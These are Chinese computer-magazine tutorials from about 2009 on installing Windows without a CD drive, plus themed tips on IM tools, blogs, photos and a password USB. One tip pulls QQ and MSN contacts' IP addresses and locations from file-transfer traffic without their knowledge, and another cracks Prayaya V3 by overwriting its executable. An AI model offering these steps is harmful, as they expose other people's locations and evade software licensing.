第二步：用Ghost32.exe将该GHO镜像文件恢复到D盘。关于如何用Ghost恢复GHO镜像文件，操作方法可以参考http://blog.163.com/hziee_kerr/blog/static/3480765120081130112624280，在此笔者就不再赘述。

第三步：待Ghost镜像恢复完成之后，选择退出Ghost而不要重启，然后打开安装了XP镜像的D盘，将ntldr, NTDETECT.COM, boot.ini这三个文件复制到Vista所在的C盘，并用记事本打开boot.ini文件(记得取消文件的“只读”属性，否则无法修改)，确认XP的启动分区序号为2(根据自己的情况来设定)，即boot.ini文件内容如下：

```
[boot loader]
timeout=10
default=multi(0)disk(0)rdisk(0)partition(2)\Windows
[operating systems]
multi(0)disk(0)rdisk(0)partition(2)\Windows="Microsoft Windows XP" /noexecute=optin /fastdetect
```

第四步：运行Vista优化大师并切换到“系统设置→启动设置”页面，打开右侧的“多系统选择”项，单击“添加”打开“操作系统添加”对话框，然后将“系统类型”设置为“其他”，“系统位置”设置为“C:”(注意不是D:)，并在“系统名称”中输入“Windows XP”，点击“确认”后关闭软件。

第五步：以管理员权限运行cmd.exe，在打开的命令提示窗口中进入bootsect.exe所在的目录，然后输入“bootsect /nt52 D:”，这样就可以用C盘下的“ntldr”引导D盘的XP系统了(实际上也可以引导Win200/2003)。

#### 实战4:给Vista虚拟一个软驱，备份、重装不用愁
在XP系统中，我们常常使用vFopply来虚拟软驱，然后用Ghost.exe就可以实现无光驱装系统了。同样地，在一台没有光驱的笔记本电脑上，如果一键还原被破坏了，我们可以像XP一样通过虚拟软驱，然后用GHOST来备份或还原系统。笔者以实战3的Vista和XP双系统为基础，为Vista加载一个软驱的操作步骤如下：

第一步：到http://www.newhua.com/soft/20055.htm下载虚拟软驱工具——vFopply，并将文件解压到本地磁盘上。

第二步：以系统管理员权限运行vFopply(否则无法修改系统文件和文件夹)，将选择同目录下的BOOTDISK.img作为“映像文件”；由于许多Windows Boot Manager都不支持中文，因此建议在“显示文本”输入一个英文的标示，比如boot from Vfloppy，然后设定“配置文件”为“C:\boot.ini”，最后点击“应用”，退出虚拟软驱工具。

第三步：重启系统，进入Windows Boot Manager界面后选择“boot from vfloppy”项，就可以像用软驱一样驱动进入纯DOS系统了。由于DOS系统是不能查看NTFS格式分区的，因此我们必须在Vista系统或XP系统中将其中一个分区设置为FAT32格式，并且把Ghost.exe文件放在该分区。

第四步：进入到DOS状态之后，进入Ghost所在的分区目录并运行Ghost程序，这样我们就可以对系统进行备份或者恢复了。

##### 小提示：
此方法同样适用于原系统为Win7和Win2008的电脑，不过系统分区必须为活动的主分区，而XP则没有要求，可以是主分区也可以是逻辑分区。

### 无光驱电脑必备——U 盘版 WinPE
2008年10月31日，星期五，阴天有小雨
前几天和同事们聊起一个话题，光驱到底有什么用？电影在线看，数据交换用U盘，安装软件？常用的工具就那几个，在系统上备份一下就好了。于是，大家的结论只有一个——装系统。
一直以来，光驱之所以能够在电脑配件占一席之地，主要原因在于，它在很长一段时间内都是人们管理电脑或者与外界互相交流的重要窗口。但随着网络、大容量移动存储器的普及，或许在未来的某天，光驱可能会像软驱一样，被人们扔进历史的回收站。

#### 实战5:制作一个工具万能启动的U盘来装系统
在许多没有一键还原的电脑上，如果系统无法正常启动而光驱又坏掉的情况下，我们如何重新安装一个系统呢？实际上，我们只需要一个U盘(建议1GB以上)，将其制作成一个可以启动的系统，然后就可以用来安装或解决系统问题了。

#### 实战6:用U盘版在WinPE系统下，全新安装XP原版镜像
再回到刚才提出的问题，XP系统除了可以在DOS下实现全新安装外，还有没有更加直观的方法呢？当然，有了U盘版WinPE，给没有光驱的电脑安装新系统将变得更加简单。步骤如下:

- 第一步:准备一张XP原版光盘的镜像，并保存在电脑上(非C盘接口)。用U盘启动进WinPE系统，然后将C盘快速格式化(如果原来的系统不是安装在C盘，请用分区软件将其设置为活动的主分区，否则安装软件不会将文件复制到这里面)。
- 第二步:在WinPE依次打开“开始→程序→磁盘光盘工具”，用UltraISO软件将刚才的镜像文件加载到一个虚拟光驱中，然后打开该光驱并双击Setup.exe安装文件，选择“安装Microsoft Windows XP”。
- 第三步:在打开的“Windows安装程序”窗口中，将“安装类型”设置为“全新安装”后单击“下一步”，输入产品密钥并单击“下一步”。
- 第四步:在“安装选项”中单击“高级选项”，在弹出的窗口中勾选“从安装CD复制所有安装文件”和“我想在安装过程中选择安装驱动器号和磁盘分区”，然后将U盘拔下来(不拔掉的话，安装文件将被复制到U盘而不是复制到了C盘中)，再单击“下一步”，接着选择跳过Windows Update并单击“下一步”。
- 第五步:这时Windows安装程序开始向C盘复制文件，复制完成后重启系统，然后就可以像光盘一样地安装XP系统了。

##### 小提示:
在WinPE环境下，我们还可以将XP镜像中i386文件夹复制到本地目录，然后运行该目录中Winnt32.exe程序来安装系统，操作方法和虚拟光驱的基本相同，都需要将U盘拔下来，并勾选“高级选项”中的两个选项。

### 无光驱的 Windows Vista/7/2008 安装攻略
> 2008年12月22日，星期一，大雾
最近，在研究如何给没有光驱的电脑升级的过程中发现，从Windows 2000/XP/2003升级到Windows Vista/7/2008比使用光驱还要方便和简单，难道微软已经意识到，光驱在系统中的份量会越来越低，于是将如何帮用户解决无光驱的系统安装问题纳入到了日程上了？如果是这样，光驱厂商的日子就难过喽，在严重关注中……

在前面的实战中，其实大家可以发现，在Vista下是不支持通过ISO文件来安装XP系统的，但是在XP系统中却可以直接安装Vista。实际上，在Windows Vista/7的当前系统下是不支持降级系统安装的，不过据透露，微软正在考虑开放这一限制。话说回来，在没有光驱支持的情况下，要想从XP系统中升级或安装高版本系统主要有三种方式:升级安装、从硬盘上安装和从U盘安装。

#### 实战7:直接升级安装(以XP→Win7为例)
适用范围:在低版本的系统上升级到高版本。

- 第一步:假设系统上有C、D、E三个主分区，C为XP系统，我们要将Win7装进D盘，那么在开始前要准备一个Win7系统的光盘镜像文件保存在E盘。然后在XP系统状态下，将该镜像文件加载到虚拟光驱中(或者用WinRAR解压到E盘)。
- 第二步:运行光盘根目录下的Setup.exe，进入安装Windows界面，选择“现在安装”，选择“不获得最新安装更新”后点击“下一步”，选择“自定义”安装，然后选择将系统安装到D分区，点击“下一步”即可开始安装。
- 第三步:在安装的过程中系统会自动重启系统3次，待安装完成后，可以进入Win7系统配置你的个人信息了，而原来的XP系统将会以“Earlier Version of Windows”字样出现在启动选项中，并可以正常使用。

#### 实战8:从硬盘上安装(以XP→Vista为例)
适用范围:将原来的低版本系统(如XP/2003/2000)卸载(即格式化所在磁盘)，然后全新安装Windows Vista/7/2008。

- 第一步:用虚拟光驱软件或用WinRAR打开Vista光盘镜像文件，将里面的文件解压到本地目录，比如E:\vista，只要不是要装Vista的分区即可。
- 第二步:将E:\vista目录下的bootmgr文件和boot目录复制到C盘根目录下，然后在C盘根目录下新建一个名为sources的文件夹，接着把E:\vista\sources目录下boot.wim文件复制到C:\sources文件夹。
- 第三步:点击“开始→运行”并输入cmd命令，在打开命令提示窗口中输入“C:\boot\bootsect.exe /nt60 C:”，将bootmgr作为系统启动的引导文件。
- 第四步:重启计算机，进入到Windows Boot Manager将会自动加载boot.wim(这个过程可能比较长，请耐心等待)，进入Vista版的修复控制台的安装，设置你要安装的语言类型、时间、货币和输入方式等，点击“下一步”进入“开始安装”界面。
- 第五步:在安装界面上，点左下角“修复计算机”(repair my computer)进入“系统恢复选项”，选择最后一项“命令提示符”，进入cmd命令输入窗口。
- 第六步:用“format C:/fs:ntfs /q”快速格式化C盘(即XP所在的盘)，然后执行“E:\vista\sources\setup.exe”命令进入Vista系统的安装过程，这里不再赘述。

> 2009年1月19日，星期一，大雾
自从 Windows 7 系统泄露出来之后，经过许多小白鼠的口传身教，大家都开始对这个系统充满期待。当然，我就是其中一个，随后也加入了追赶版本更新的小白鼠阵型中。不少同事发现我的笔记本系统发生了重大变化，于是就有人来让我帮他装 Win7。本来考虑刻录一些光盘让他们自己装得了，但是为了照顾那些没光驱的家伙，于是做了几个启动 U 盘。

#### 实战9:从U盘安装(以Win7为例)
适用范围:所有情况的Windows Vista/7/2008系统的全新安装，不过有两个前提，一是主板支持从U盘启动，二是U盘容量必须在4GB以上(放得下解压后的Vista光盘文件即可)。

第一步:用diskpart命令来准备U盘。将U盘插到电脑上，打开cmd命令提示窗口(如果是Vista需要以管理员权限来运行)，然后逐个输入以下命令:

```
diskpart
list disk(显示当前系统下的所有磁盘)
select disk 1(1为U盘在系统中的磁盘编号)
clean(清空U盘的文件格式和内容)
create partition primary(在U盘上建立主分区)
select partition 1(刚建立的分区)
active(激活主分区，否则无法启动)
format fs=NTFS quick(快速将当前分区格式化为NTFS格式)
assign letter=U(分配U作为盘符)
exit
```

### 玩转 Win7 版 WinRE，让光驱见鬼去吧！
> 2009年3月13日，星期五，晴
越来越欣赏 Win7 的种种改变了，相比之下，Vista 系统简直一无是处。许多同事都严重同意这个观点，呵呵。但是大部分人对于 Win7 的欣赏只停留在使用层面，实际上，Win7 系统的一些新的功能更加值得我们去关注。

##### 小知识:WinRE是什么，它与WinPE有什么关系？
WinRE是英文Windows Recovery Environment的简写，中文意思为Windows恢复环境。WinRE是一套包含在Vista、Win2008、Win7操作系统的修复工具，可以帮助诊断和修复Windows无法成功启动等严重错误，我们可以将其理解为XP修复控制台的升级版本。

有人说WinRE就是WinPE 2.0，其实这个说法是错误的，WinPE叫做Windows Preinstallation Environment，也就是Windows预安装环境，而WinRE是基于WinPE 2.0下的一个系统恢复平台。

#### 实战10:用Win7系统内置的WinRE备份和还原系统
- 第一步:在启动Windows 7的过程中，按F8并选择“修复计算机”，然后系统将会加载保存在系统盘中的WinRE.wim映像文件到内存中，进入到WinRE之后先要设置一下输入法，然后就可以进入WinRE主界面了(目前Win7内置的WinRE只有英文版，预计在Win7正式发布后才会有中文版)。
- 第二步:在WinRE主界面中点击“Command Prompt”进入命令提示窗口，输入“E:\ghost\ghost.exe”命令，启动Ghost系统备份程序，在Ghost界面上，我们就可以像平时那样备份和还原系统了。如果用DOS来备份系统，Ghost文件所在的分区必须为FAT32格式，否则就会无法启动，而WinRE下使用Ghost则没有这个担心，非常方便。

未完待续……鉴于日记属于私人物件，我们无法透露更多，本期曝光这么多技术内容，相信大家用一阵子的了。大家还想看哪类IT职业人物的日记？欢迎发送邮件到 focus@cfan.com.cn 告诉我们，我们尽量满足大家！

图文/庞锦贵

## 《2012》(2009)
动作/惊悚/科幻/剧情

又名《2012世界末日》。玛雅文明中预言：2012年，地球末日将会到来。时间定格在了2012年，地球果然灾难不断，政府秘密执行方舟计划，却不料不能保护所有人，谁能存活谁去灭亡？影片选在了11月13日——这个“黑色星期五”的日子作为全球首映，可谓是别有用心。在上映后获得了广泛的好评，山崩地裂的特效也让观众过足了眼瘾。

## 我为‘变形’狂 网络金刚之风云再起

今天的人们，经常会在不同的地方使用电脑，但很多资料、软件却不是每台电脑都有。如果你的电脑数据能够像变形金刚一样随意移动，便携易用，该是多么美妙的一件事……

汽车人、霸天虎，变形金刚在屏幕上尽情挥洒着人们对机械世界的极致想象。N年前，地球上有了电脑，有了网络，从而也出现了一群爬网的网虫。他们是一群桀骜不驯、头脑灵活的年轻人。面对网络束缚，他们俨然成了一群变形金刚，故事也从此开始了……

## 变形金刚25年大事记

- 1. 1984年——5月，Marvel漫画公司制作的第一本变形金刚漫画问世，并同时推出动画片《变形金刚》，变形金刚正式诞生。
- 2. 1990年——美版制作将可动人形概念加入到变形金刚系列中，推出了新的可动战士系列，这意味着传统意义上的G1（1984版本变形金刚）时代结束。
- 3. 1996年——孩之宝与加拿大动画公司Mainframe合作推出的《超能勇士》动画系列登场。变形金刚们第一次以3D造型登场。
- 4. 2004年——变形金刚20周年纪念，除了推出20周年纪念款产品，新的动画系列《超能量争夺战》展开，在这部动画中变形金刚首次采用了当时游戏业中流行的卡通渲染风格。
- 5. 2007年——《变形金刚》电影第一部于该年夏天热映，时隔20余年，全球再度掀起变形金刚的热潮。电影版的设计风格与传统变形金刚大相径庭，令很多人无法接受。
- 6. 2009年——变形金刚25周年纪念，电影《变形金刚2》隆重上映，并引发了第二轮变形金刚的热潮。

## 让一切暗黑势力都见鬼去吧

## 形象代表：擎天柱

擎天柱是正义的化身，用一颗仁爱怜悯的心对待所有的生命，时常为争取自由和平，保护弱小和维护自己的信念奋斗不息，战斗不止。面对网络上的暗黑势力，擎天柱决定为众网友伸张正义……

## 战斗1：QQ，不要再分三六九等

- 在最新版的QQ2009SP2中，我们可以另辟蹊径利用消息记录上传功能享受VIP会员的尊贵待遇。
- 1. 与某个好友聊天后，如果欲漫游聊天记录，那么可以点击“消息记录”按钮，激活消息记录面板。可以看到右侧的窗格中增加了“已上传”页面。
- 2. 首先，点击“本地”选项使当前窗口处于本地聊天记录页面，然后点击“点击上传聊天记录”按钮，在接下来打开的对话框中点击“开始上传”按钮。
- 3. 接下来，需要选择是“上传当天消息记录”还是“选择一段时间内的消息记录上传”。如果是选择一段时间内的消息记录上传还需要指定一下聊天记录的时间范围，最后单击“确定”按钮即可。
- 4. 当我们在异地，需要查看此前的聊天记录时，只需启动并登录QQ，激活消息记录窗口，然后单击“已上传”选项，在其下就可以看到以前上传的聊天记录文件了，选择其一个上传的聊天记录文件，就可以看到其中的聊天内容了。

## 变形 为MSN、Skype、Yahoo添加聊天记录漫游功能。

你是不是还在为MSN, Skype, Yahoo不具备漫游功能而气馁？哈哈哈……快来尝尝MSN, Skype, Yahoo上传聊天记录的滋味吧！

第1步：下载安装All-in-one IM-History Client Suite (v1.0.12) (下载地址: http://www.im-history.com/downloads)。并注册成为其会员，然后通过注册邮箱激活程序。

第2步：安装后，IM-History会随Windows的启动而启动，当我们调用MSN等IM工具进行聊天时，IM-History会即时将聊天记录上传到网站上，无需用户手动上传，十分的方便。

第3步：当到达另外一个地方，需要查看此前在其他地方的聊天记录时，只需再次安装和启动IM-History，在打开的窗口中，切换到某款IM工具名称命名的选项卡，在其下列列表中选择某个联系人，就可以查看自己与该联系人所有的聊天记录了。为了方便查阅，我们可以利用时间标签进行一下过滤，仅查阅某个时段的聊天记录，非常的方便。

小提示：
QQ对聊天记录的上传做了限制，每一个好友只能上传50KB的聊天记录。

## 图片背后的故事

## 形象代表：雨舞

雨舞是一个追求浮华，喜欢夸夸其谈的人。利用视频通讯录的职位之便，她记录下很多大事件的珍贵照片，每当翻看这些照片时，她就会感到刺痛——她幻想着自己就是处在暴风中心的那个人物——无论为此付出多大代价。

## 图片故事1：批量获取事件照片

雨舞拍摄的事件照片都保存到163相册中，这天擎天柱召集汽车人商讨作战方案，要求雨舞立即将网络相册中的近千张图片下载到总部的电脑上。时间紧迫，如果再按以前的老办法是肯定不行了，于是雨舞找来一款下载利器——OX163 plus (下载地址：http://www.onlinedown.net/soft/76657.htm)。程序为绿色软件，解压后直接运行。

第1步：启动程序，首先在地址栏中输入自己的163相册用户名，Shift+回车后输入相册密码。

第2步：接下来，点击工具栏上的“生成相册列表”按钮，程序会自动列出相册列表。

小提示：
OX163支持163相册、雅虎相册、TOM相册以及各类大型图库的图片批量下载。

第3步：现在选择一下需要下载的相册目录，然后点击“保存”按钮并选择一下保存目录，即开始批量下载了。

## 图片故事2：快速筛查可疑分子

器材仓库是军事重地，霸天虎经常派间谍分子进行骚扰破坏，为确保器材库的安全，雨舞利用远程摄像机每分钟拍摄一张库区图片，以查证是否有可疑分子窜入库区。这天，雨舞被擎天柱召去开会，回来后面对一大堆自动拍摄的图片，怎么才能快速筛查出是否有可疑分子呢？

一张一张地看，一张一张地挑选，当然是雨舞所不屑的。灵机一动，她想到了Google Picasa (下载地址：http://www.newhua.com/soft/33155.htm) 的面部识别功能，利用该功能可以快速地将包含有人物的图片从众多的库区图片中挑选出来。

第1步：启动Google Picasa，选择菜单“文件”→“将文件夹添加到Picasa”，将自动拍摄回来的图片文件夹添加到Picasa中。

第2步：接下来，在Picasa主界面中，选择刚刚添加进来的图片文件夹。然后，点击工具栏上的“显示有人物头像的照片”按钮，Picasa即可开始搜索。

第3步：稍等片刻之后，Picasa 会自动筛选出当前文件夹内所有包含有人物的图片，而将没有人物的库区图片关在门外。

第4步：最后，在Shift键的帮助下，全选这些人物图片，点击鼠标右键，选择“移到新文件夹”，将所有人物图片移动到一个新的文件夹中。现在进入到目标文件夹，即可快速分析排查是否有可疑分子了。

## 会战斗也要会拉风

形象代表：战戟
口头禅：想到不如做到
爱讲笑话的战戟喜欢四处拉风的感觉。事实也是如此，没人会跟他争论射击的艺术——因为在战戟看来，射击就是不停地开炮。

### 拉风装备之一：头像自拍个性十足

爱拉风的战戟首先想到的是给自己拍一个个性十足的QQ头像，在新版的QQ SP2中，战戟能够轻松实现自己的梦想。

第1步：点击自己的QQ头像，在接下来打开的窗口中点击“更换头像”按钮打开更换头像窗口。
第2步：然后点击右侧的“自拍头像”，接下来就会启用你的摄像头，调节后摄像头的角度使整个头像清晰地出现在屏幕上，然后点击“拍照”按钮。
第3步：3、2、1倒计后一张个性十足的头像就拍成了，点击“保存”按钮回到更换头像窗口，确定之后就可以让众QQ哥Q妹欣赏自己个性十足的拉风头像了。

下面，让我战戟再教大家一下如何录制自己的视频头像。

MSN 2009允许我们用摄像头拍摄4秒钟视频作为MSN头像，非常有意思。单击“显示图片”窗口中的“显示网络摄像机”按钮，打开“通过网络摄像机创建显示图片”向导窗口。现在单击“录制视频”按钮即可开始录制了，录制完毕后预览一下，满意后点击“完成”按钮即可将视频片段作为自己的动态头像了，效果非常的棒。

### 小提示：

在BlogCastone提供了四种样式：蓝色、灰色、绿色和粉色。不过实际上我们可以通过修改它提供的代码使用自己喜欢的任何颜色。

### 变形 MSN动感头像录制

亲爱的队友们，QQ自拍头像好玩吧？呵呵，你们可能还不知道在Windows Live Messenger 2009中，不但可以拍摄制作出自己的动态头像，而且可以随心所欲地录制自己的视频片段并将其作为自己的动态头像，更酷更拉风哟。

第1步：在MSN主界面中，点击自己的头像图标。打开“显示图片”窗口，然后点击“动态图片”按钮，打开“创建动态显示图片”向导窗口。
第2步：点击“拍摄照片”按钮拍摄5张不同的照片填充到向导下方的图片显示框中，然后，为每张照片指定一个图释来在聊天窗口中更改显示图片。
第3步：拍摄完毕，单击“完成”→“确定”按钮。好了，现在打开聊天窗口，向对方发送预设好的图释，自己头像处的图片会按照图释的不同自动变化，惟妙惟肖，十分的有趣。

### 拉风装备之二：当红QQ表情大搜集

很多朋友都羡慕我战戟在聊天时总有用不完的表情，呵呵，其实我就一个包包——动漫频道的最近当红QQ表情大搜集，包括经典的兔斯基、悠嘻猴、洋葱头，还有新锐炮炮兵，让我在和别人交流的时候很～～～有面子o(n_n)o...

- “兔斯基”下载：http://comic.qq.com/z/qqface2/tsj.eip
- “悠嘻猴”下载：http://comic.qq.com/z/qqface2/yoyo.eip
- “洋葱头”下载：http://comic.qq.com/z/qqface2/yc.eip
- “炮炮兵”下载：http://comic.qq.com/z/qqface2/ppb.eip

还不过瘾是吧，那么就到QQ聊天表情站(http://www.funbp.com/)中自行收集吧。

### 拉风装备之三：在线音乐响不停

爱拉风的战戟在任何时候都不会忘记展示自己，即便是在自己的博客中。他在写日志时总是喜欢插入一首音乐什么的，但blog自带的音乐播放器往往不怎么美观，影响页面整体美观。让访客另外开启类似QuickTime或WMP之类的软件来播放又为大大降低网页打开的效率。爱拉风的战戟自有其拉风的处理办法，使用blogcastone提供的在线播放器。

第1步：当需要在博文中插入音乐文件时，首先进入到百度MP3，搜索找到自己所喜欢的音乐文件，复制一下其URL备用。

第2步：打开blogcastone (http://www.blogcastone.net/)，在“MP3 URL”文本框中按下“Ctrl+V”键将刚才复制的MP3 URL粘贴进来，然后从“Theme”样式下拉列表中选择一种自己喜欢的样式，最后点击“Generate”按钮。
第3步：在接下来的页面中，我们会得到一些代码，将这些代码复制粘贴到自己的博客中即可。

### 小技巧：QQ SP2快速表情搜索

收集了N多QQ表情，使用起来也非常麻烦，每次都要逐一浏览进行选择，势必浪费时间，也考验我们的眼球。要使用某个表情，不妨来搜一搜，在表情列表框中，点击“搜索”，在接下来的搜索框中我们就可以输入关键词快速查找了，比如输入“高兴”、“悲伤”、“鲜花”等，都可以很快得到搜索结果，而这些正好在特定的时候传达我们的心情。

### 变形 1.来自Yahoo的精美音乐播放器

将下列代码直接复制到自己的博客中，并用自己喜欢的音乐文件的URL地址替换掉代码中的MP3URL

```
<embed src="http://webjay.org/flash/dark_player" width="400" height="40" wmode="transparent" flashVars="playlist_url=MP3文件URL&amp;skin_color_1=-145,-89,-4,5&amp;skin_color_2=-141,20,0,0" type="application/x-shockwave-flash" />
```

### 2.来自91china的精美音乐播放器

91china有更多的播放器可供挑选，有Iphone&amp;Ipod系列、白色系列、巧克力系列、红色系列、黑色系列、其他系列等八大系列几十款播放器可供选择。

第1步：进入到91china (http://www.91china.net)，注册成为其会员并登录。
第2步：首先在控制面板中，在“添加新歌曲”栏目中，分别输入“歌手名称”、“歌曲名称”、“歌曲地址”，点击“添加”，将自己喜欢的需要在博客中播放的音乐文件添加进来。
第3步：挑选自己喜欢的播放器。点击左侧功能列表中的“获取代码”按钮，在接下来的页面中，将显示八大系列的播放器，点击“进入挑选”进入到某个系列中，然后挑选自己喜欢的播放器即可。
第4步：将播放器右下角的文本框中显示的代码，复制粘贴到自己博客中即可。

### 拉风装备四：趣味图片乐不停

雨舞和战戟近期有点误会，为使两人和好如初，战戟想到了要用趣味图片博雨舞一笑。尽管网络上有数也数不尽的趣味图片，但战戟总不需要这样，他要亲自来制作一张结婚证书，以表白自己的诚心。

第1步：进入到改图网 (http://www.gaitu.com/)，注册成为其会员，并重新登录。
第2步：接下来，点击“智能改图”按钮，进入到智能改图页面。在该页面中有非主流改图、网商改图、手机改图、QQ改图、粉丝改图等多个大类。点击“粉丝改图”，然后从其下选择“最新劲舞团结婚证书” (http://www.gaitu.com/img-85.html)。
第3步：在接下来的页面中输入“男方”、“女方”的名字，以及“及发证日期”等等。最后单击“生成”按钮，一张惟妙惟肖的搞怪图就完成了。

### 小提示：

改图网允许用户上传一张自己的图片，有了图片之后，我们只需选择相应的选项，选择相应的模板即可完成图片的更改了。

### 变形 利用PhotoFunia描绘心中的她

有了结婚证书，战戟总觉得还缺少点什么，思前想后觉得用段视频来示爱效果可能更好。

第1步：打开PhotoFunia (http://www.photofunia.com/)，在这里有100余种图片效果可供选择。在这里根据自己的喜爱选择即可，示例中我们选择的是第5种，一个在手动画素描的视频。
第2步：在接下来的页面中，点击“浏览”按钮，将自己心仪的照片打开并上传到网站上。
第3步：稍等片刻，一张惟妙惟肖的示爱视频就完成了。

## 克敌制胜靠的是灵感

形象代表：小诸葛
口头禅：再强大的暴君也无法压制思想的自由
小诸葛的脑袋里充满了奇思妙想，他的脑筋时刻都在超频运转，就连他自己也无法克制住那些从潜意识中不断迸发出来的灵感……

### 灵感1：快速查明QQ/MSN联系人的身份

总部传来消息，在QQ、MSN上突然增加出不好的联系人，他们是敌是友，来自哪里，总部要小诸葛快速查明。小诸葛略加思索，拿出了IP雷达 (下载地址：http://www.onlinedown.net/soft/81314.htm)。IP雷达可以即时显示电脑网络使用情况，特别是可以查看MSN、QQ好友所在地。

第1步：运行程序，点击“TOP流量”标签，其上显示出本机所有访问网络的程序，并详细列出了域名、端口、地点以及接收和发送的字节数，网络的使用情况一目了然。
第2步：切换到“UDP流量”标签，现在打开QQ好友的聊天窗口，只要给对方发一个附件或者对方给你发 (稍微大一点，比如一个图片)，对方一旦接收，通过看UDP标签下最后传输时间和对应的程序，那一行的IP地址就是对方的。

### 小提示：

要查找MSN联系人的地点，则是切换到“TCP标签”，然后进行同样的操作。

### 灵感2：长网址也有“缩骨神功”

对于长网址输入记忆起来都比较麻烦，小诸葛人聪明，利用TinyURL让长网址玩起了“缩骨神功”。
第1步：下载安装TinyURL (下载地址：http://uushare.com/user/appinn/file/1365363)。
第2步：在任意浏览器地址栏中输入网站的长网址，然后在网址的前面加上“tinyurl:”，例如缩短电脑爱好者博客的网址：“tinyurl:http://blog.cfan.com.cn/html/index.html”。
第3步：回车后，提示请稍候，正在缩短，等一下，缩短就完成了同时会显示缩短后的网址。

### 灵感3：全盘掌控队友战斗状态

战斗之余，队友都喜欢玩QQ休闲游戏，那么如何掌控队友的战斗状态呢？！
很简单，让队友进入到QQ，选择菜单“系统设置”→“状态和提醒”→“即时共享”，在这里确保选中“我正在玩的QQ游戏”、“我正在玩的其他游戏”，这相当于发出了一个“通知”的信号。
好了，以后当需查看队友当前是否在玩游戏，玩的什么游戏时，只需点击某个好友，然后从右键菜单中选择“一起玩游戏”下的“查看游戏信息”，好友玩游戏的情况一目了然。

### 小技巧：

对于资源管理器中的深层目录，我们同样可以利用TinyURL来缩短。

### 测测小诸葛的智商

小诸葛鬼点子多，他为何如此的聪明呢？他的智商是多高呢？我们不妨在线测试一下。
进入“http://iq.200.net/”，这是一个很有意思的在线IQ智商测试，一共39道题目，都是图形选择题。时限为40分钟，不过实际上只要10分钟左右就能全部搞定。据称爱因斯坦似乎是160+，经过一番在线测试，小诸葛的IQ是140+，与爱因斯坦差不多。测试完毕，将得到一个智商对应列表，可以查出自己比多少人聪明。

### 小提示：

用通常方法是无法卸载TinyURL的，如果需要卸载的话，那么则要为TinyURL.exe创建一个快捷键方式，修改其属性，在目标一栏的最后加上“/unreg”，注意斜杠前面有一个空格，然后运行它就可以卸载了。
我们也可以邀请好友一起玩游戏，在某个好友头像上点击右键，选择“一起玩游戏”好友接受你的请求后即可开战了。

## 密码保卫战

形象代表：消防车
口头禅：哪里有浓烟滚滚，哪里就有我
“越热的东西，我就越喜欢。”他喜欢刺激的，

## 战斗1：严防死守，让黑客干瞪眼

无论是在战斗还是救援工作。在战场上，我们经常可以看见他与伙伴们与敌人杀成一团……在网络时代，队友们都有一大堆需要保护的东西，聊天工具、论坛账号、网上银行、E-mail还有各种数字证书等等。如何记忆和管理好这些账号密码，令队友们头痛。现在的钓鱼网站和盗号木马非常疯狂，盗号、信息泄露非常普遍，使用了N年的QQ、MSN或者网游账号被盗，那些积累多年的好友，或者奋战多年的网络游戏成果，都将付之东流。更严重的是，网银账户密码泄露，造成财富的损失。于是乎，消防车就成了队友们最好的伙伴了，经常被呼来唤去到处为队友们灭火。在一次次与病毒、木马的作战中，消防车有了一套保护密码的完整方案，这就是利用Passbay定制密码保护U盘，让U盘帮助记忆网页和应用程序登录窗口的账号密码，其强化的加密机制可以让用户完全不用担心保存在内的账号密码被泄漏。

第1步：下载安装Passbay，下载地址：http://www.newhua.com/soft/76983.html，在安装过程中，一定要选择安装在U盘上，同时在安装过程中，程序将格式化U盘，因此一定要备份U盘数据。

第2步：运行程序，输入Passbay密码进入程序，初始密码为“1234”。登录后我们可以看到程序是以一个状态栏的形式来显示，进入程序后首先要做的是更改Passbay密码，点击“开始”菜单（注意是程序的“开始”菜单，而不是Windows“开始”菜单），选择“设置Passbay密码”菜单，自行设置一个即可。

> 小技巧：
存放于U盘中的所有信息均采用BlowFish加密算法加密保存，程序运行时产生的临时数据也被加密保存在内存块中，只有在程序需要时才被解密存放于私有内存块。完善的安全机制可以确保用户的账号和密码难于被追踪，有效保护用户账号密码的安全。

第3步：选择菜单“开始”→“账号”→“创建密码账户”，打开创建密码账户向导窗口，利用该向导我们可以将自己的账号密码统统添加到程序中。
第4步：在创建密码账户窗口中，按“即时消息类”、“免费网络邮箱”、“网络游戏”、“常用论坛”等栏目分门别类地列出了网络中能够用到账号和密码的程序、论坛、邮箱等，我们只需选择相应的程序即可完成账号密码的添加了。以添加QQ为例，在即时消息类栏目中选择“腾讯QQ”，在接下来打开的对话框中，点击“程序”后的浏览按钮，定位到QQ安装目录下的QQ.exe，然后输入QQ号码和密码，点击“确定”按钮即可。
第5步：以后需要使用账号密码时，首先插入U盘，进入“我的账号密码”窗口，找到相应的程序，双击即可自动运行和登录了。

> 小提示：
Passbay默认设置了5次验证PIN码，超过5次，Passbay密码被锁，硬件里的数据也会被格式化。

> 小技巧：
对于论坛或邮箱的账号密码，如果此前在浏览器中你曾经选择过保存账号密码，那么，可以批量导入到程序中，方法是，选择“开始”→“我的账号密码”，打开我的账号密码窗口，然后点击“导入”按钮，选择“从Internet Explorer导入”即可。

## 战斗2：口袋系统安全方便

消防车的工作性质决定他经常要“飞来飞去”，每到一个地方，换了电脑，换了工作环境，因不熟悉当前电脑的设置，没有安装自己需要的软件，工作效率大打折扣。为此多次受到老大擎天柱的严厉批评，这还不说，有次到网吧电脑上网，还差点将论坛账号丢失，虚惊了一场。痛定思痛，消防车决定彻底改变这种情况，经过一番研究，他终于研制出一套口袋操作系统。

### 1.安装

下载安装Prayaya V3 1.1.97，下载地址：http://www.budingwang.com/xitong/200903/22-810.html。下载完毕，运行压缩包中的“V3Setup.exe”，进行口袋系统的安装，在安装过程中，将安装目录指向U盘。安装完毕，将压缩包中的“PrayayaV3.exe”释放到U盘的“X:\PrayayaV3\prayayaV3”目录中覆盖原来的文件完成破解。至此，口袋操作系统即告打造完成。

### 2.安装应用软件

安装有PrayayaV3的U盘，就宛若一台可以随身携带的小电脑。不过，默认情况下，安装的虚拟Windows同真实安装Windows一样，没有带过多的应用软件，这需要我们自行下载安装。下面以下载安装QQ为例加以说明。

第1步：打开PrayayaV3专用软件下载页面 (http://www.prayaya.com/cn/download/)，在其中有证券、音频视频、商务、邮件、游戏、互联网、实用工具、图形、安全防卫、Web浏览器等多个栏目，根据软件性质选择相应的栏目下载即可。示例中是选择“互联网”→“QQ”，点击下载链接后选择“保存”按钮即可。

> 小提示：
如果没有弹出保存对话框，那么则是当前设置拦截了下载信息，可以单击浏览器地址栏下方的拦截信息条，选择“下载文件”命令。

第2步：下载完毕，首先插入U盘，运行U盘上的“StartV3.exe”，打开口袋操作系统。接下来，双击下载回来的程序安装包即可像安装普通软件那样安装口袋操作系统中的应用程序了。

> 小知识：
